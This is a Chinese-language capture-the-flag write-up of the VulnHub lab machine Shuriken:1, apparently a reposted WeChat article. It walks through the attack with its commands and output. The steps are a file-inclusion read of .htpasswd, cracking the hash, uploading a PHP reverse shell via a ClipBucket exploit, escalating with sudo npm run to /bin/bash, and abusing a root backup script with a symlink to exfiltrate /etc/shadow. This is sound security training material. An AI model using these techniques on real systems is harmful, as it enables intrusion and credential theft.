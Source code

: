 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/oB4JGP48xAx0TJBymU0K6g)

**0x01** Introduction  

* * *

虚拟机下载页面：http://www.vulnhub.com/entry/shuriken-1,600/  

Description

```
Difficulty: easy/medium

That's the first machine I developed. I tried to make use of more realistic techniques and then include them in a single machine. Keep in mind it's still just a CTF. It's meant to be rather easy. Can you take advantage of the misconfigurations made by The Shuriken Company? See you in the root.
```

‍

**0x02** **Writeup**  

* * *

2.1 getshell

#####  2.1.1 端口信息

只开放了 80 端口，只能从 web 应用入手

##### 2.1.2 脆弱服务

使用 dirb 爬取目录

目录扫描：  

```
==> DIRECTORY: http://192.168.56.121/css/                                      
==> DIRECTORY: http://192.168.56.121/img/                                      
+ http://192.168.56.121/index.php (CODE:200|SIZE:6021)                        
==> DIRECTORY: http://192.168.56.121/js/                                       
==> DIRECTORY: http://192.168.56.121/secret/  
```

#### 最初以为 secret 目录下 secret.png 图片做了信息隐藏，一顿操作没有找到任何信息。反过来查看 index.php 页面的 js，发现了有意思的东西。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQSLsNuuMpN2ia0aANkv6Dibetl1HwQHsCV9UOpPp9z01ns9jxmSALA57wpEt7LBNI2TNJb9A9JpdSSg/640?wx_fmt=jpeg)

修改 hosts 后访问 http://broadcast.shuriken.local，发现需要 basic auth。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQSLsNuuMpN2ia0aANkv6DibetZTt4JmCZed2KagP0lKJQ5Gda9JBGibCG0qZZ8vyZT0GXPgQQxqDaZSA/640?wx_fmt=jpeg)

尝试另一个请求 http://shuriken.local/index.php?referer=，读取到了 apache2 的默认配置文件 / etc/apache2/sites-enabled/000-default.conf。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQSLsNuuMpN2ia0aANkv6DibettsArfv1qnIibfHChEr8Yh9xN0oYiaoVqPmxThJHVAnQwKkNicpicUDMiaJw/640?wx_fmt=jpeg)

继续读 / etc/apach2/.htpasswd，得到了用户名和加密密码 developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0。

用 hashcat 结合 rockyou 字典破解密码为 9972761drmfsls。

```
kali@kali:~$ hashcat -m 1600 -a 0 1.txt /usr/share/wordlists/rockyou.txt --show
$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls
```

进入系统，发现是 clipbucket4.0。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQSLsNuuMpN2ia0aANkv6Dibet4VeQD1ViactSvfXGvU57zIwpRWoUhW1ayeLZq2Xc2JWPf7fz6QUiaRJg/640?wx_fmt=jpeg)

在 exploit-db 上搜到一个利用：https://www.exploit-db.com/exploits/44250，成功上传 shell。

```
kali@kali:~$ curl --basic --user "developers:9972761drmfsls" -F "file=@php_reverse_shell.php" -F "plupload=1" -F "  http://broadcast.shuriken.local/actions/beats_uploader.php
{"success":"yes","file_name":"160691880796e48b","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}

kali@kali:~$ nc -lp 8080
Linux shuriken 5.4.0-47-generic #51~18.04.1-Ubuntu SMP Sat Sep 5 14:35:50 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:20:42 up  1:52,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                13:28   15:30   0.35s  0.35s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

##### 2.2 权限提权  

查看 sudo -l，发现可以执行 npm，这里利用 npm run 功能，成功切换到用户 server-management。

先生成一个 package.json，内容为：

```
{
  "scripts":{
    "dev": "/bin/bash"
  }
}
```

在相同目录下执行命令 sudo -u server-management npm run dev，得到第一个 flag。

```
$ cat package.json
{"scripts":{"dev":"/bin/bash"}}
$ sudo -u server-management npm run dev

> @ dev /tmp/test
> /bin/bash

id
uid=1000(server-management) gid=1000(server-management) groups=1000(server-management),24(cdrom),30(dip),46(plugdev),116(lpadmin),122(sambashare)

cd /home/server-management
cat user.txt
67528b07b382dfaa490f4dffc57dcdc0
```

上传运行 pspy64 发现了以下奇怪的进程:

```
2020/12/03 06:04:01 CMD: UID=0    PID=2772   | /bin/bash /var/opt/backupsrv.sh
```

查看 backupsrv.sh:

```
server-management@shuriken:/var/opt$ cat backupsrv.sh
cat backupsrv.sh
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

观察了一下，该 sh 大概每分钟会被执行一次，由于 sh 中参数不能修改，于是这里删除了 / home/server-management/Documents 文件夹，做了 / etc 到 Documents 的软连接，压缩成功后将其拷贝到 / var/www/main（注意：需切换到 www-data 用户），下载后获取到 shadow 文件。

```
# 软连接前
-rw-r--r--  1 root root     49331 Dec  3 06:20 shuriken-Thursday.tgz
server-management@shuriken:/var/backups$ rm ~/Documents -rf
server-management@shuriken:/var/backups$ ln -s /etc /home/server-management/Documents
# 软连接后
-rw-r--r--  1 root root   1124824 Dec  3 06:22 shuriken-Thursday.tgz
```

```
kali@kali:~/Downloads/test/shuriken-Thursday$ cat shadow
root:$6$KEYGm0ZQ$oTT3SYXna/5H61MZCwqvY995xtDqHGaMe5LRrMXNtVLLDVwfoj.DtJ0AQk6wfhAfOW23uR6wqd7UC5I7MPq0a0:18522:0:99999:7:::
daemon:*:18522:0:99999:7:::
bin:*:18522:0:99999:7:::
sys:*:18522:0:99999:7:::
sync:*:18522:0:99999:7:::
games:*:18522:0:99999:7:::
man:*:18522:0:99999:7:::
lp:*:18522:0:99999:7:::
mail:*:18522:0:99999:7:::
news:*:18522:0:99999:7:::
uucp:*:18522:0:99999:7:::
proxy:*:18522:0:99999:7:::
www-data:*:18522:0:99999:7:::
backup:*:18522:0:99999:7:::
list:*:18522:0:99999:7:::
irc:*:18522:0:99999:7:::
gnats:*:18522:0:99999:7:::
nobody:*:18522:0:99999:7:::
systemd-network:*:18522:0:99999:7:::
systemd-resolve:*:18522:0:99999:7:::
syslog:*:18522:0:99999:7:::
messagebus:*:18522:0:99999:7:::
_apt:*:18522:0:99999:7:::
uuidd:*:18522:0:99999:7:::
lightdm:*:18522:0:99999:7:::
whoopsie:*:18522:0:99999:7:::
kernoops:*:18522:0:99999:7:::
pulse:*:18522:0:99999:7:::
avahi:*:18522:0:99999:7:::
hplip:*:18522:0:99999:7:::
server-management:$6$.KeNqlcH$7vLzfrtf2GWWJ.32ZN0mMTJhHlYDE9PQsbrqkcgpnXDAv9hW27b1D/tC/XD1rsN29.DKFXVEqWgVtZxwvSTgE0:18522:0:99999:7:::
vboxadd:!:18522::::::
mysql:!:18522:0:99999:7:::
```

hashcat 一时没跑出来，算了，重复上面的步骤，将 / root 文件夹下下来，得到新的 flag。

```
kali@kali:~/Downloads/test$ cat root.txt 

d0f9655a4454ac54e3002265d40b2edd
                                          __                   
  ____  ____   ____    ________________ _/  |_  ______         
_/ ___\/  _ \ /    \  / ___\_  __ \__  \\   __\/  ___/         
\  \__(  <_> )   |  \/ /_/  >  | \// __ \|  |  \___ \          
 \___  >____/|___|  /\___  /|__|  (____  /__| /____  >         
     \/           \//_____/            \/          \/          
                                            __             .___
 ___.__. ____  __ __  _______  ____   _____/  |_  ____   __| _/
<   |  |/  _ \|  |  \ \_  __ \/  _ \ /  _ \   __\/ __ \ / __ | 
 \___  (  <_> )  |  /  |  | \(  <_> |  <_> )  | \  ___// /_/ | 
 / ____|\____/|____/   |__|   \____/ \____/|__|  \___  >____ | 
 \/                                                  \/     \/ 
  _________.__                 .__ __                          
 /   _____/|  |__  __ _________|__|  | __ ____   ____          
 \_____  \ |  |  \|  |  \_  __ \  |  |/ // __ \ /    \         
 /        \|   Y  \  |  /|  | \/  |    <\  ___/|   |  \        
/_______  /|___|  /____/ |__|  |__|__|_ \\___  >___|  /        
        \/      \/                     \/    \/     \/
```

**PS：**许多人企求着生活的完美结局，殊不知美根本不在结局，而在于追求的过程。

更多精彩

*   [Web 渗透技术初级课程介绍](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)
    
*   [](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486968&idx=1&sn=7f66208298cf2cec57286947ddb8b223&chksm=fcfc30aecb8bb9b8333c1d05976dbdbf33d34f2a0d2b0cdfc41e835d29b9b4bcfc352504f8e4&scene=21#wechat_redirect)[vulnhub 之 Masashi:1 靶场 writeup](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247487124&idx=1&sn=cbb8a52c53719bb329ecef545015ba4e&chksm=fcfc33c2cb8bbad467efcc0f448fab1c788f74420f75ee7c985183358ee6eb8389ada70aed36&scene=21#wechat_redirect)
    
*   [系统漏扫软件 Nessus 之 pro 插件库](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247487142&idx=1&sn=592bc806cefdd8352e198ecf708b0061&chksm=fcfc33f0cb8bbae635657879e6c31dfb42b07ad21647040e83f70b899d1463e6bfab365cec50&scene=21#wechat_redirect)  
    
*   [商务合作](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486808&idx=1&sn=f50f15f9a3ab7312a08b1f932292faca&chksm=fcfc300ecb8bb918213c6070d864ffcd70ad27ab6525521c31e9ccaa57bdfa2968360ed7e8fe&scene=21#wechat_redirect)
    

![](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSd9wDlUiar0tUpHCYAzrZfTzOvS2SEw9cia9j7d1HKP2bWArPLCegs1XoejVUPu0GkSuZh7Wia7aExA/640?wx_fmt=png)

**如果感觉文章不错，分享让更多的人知道吧！**